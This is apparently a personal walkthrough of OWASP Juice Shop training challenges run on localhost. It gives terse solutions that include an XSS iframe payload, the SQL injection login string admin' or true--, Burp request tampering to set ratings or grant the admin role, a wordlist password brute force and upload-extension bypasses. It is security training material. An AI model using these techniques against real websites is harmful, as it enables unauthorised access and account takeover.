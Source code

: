 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar > <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe><br><br>

### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]<br>
rename .xml file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .xml extension<br>
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"<br>

### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op
burp suite > intruder > 
positions: password
attack type: sniper
payloads > usr/share/wordlist/fern-wifi/common.txt

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 











































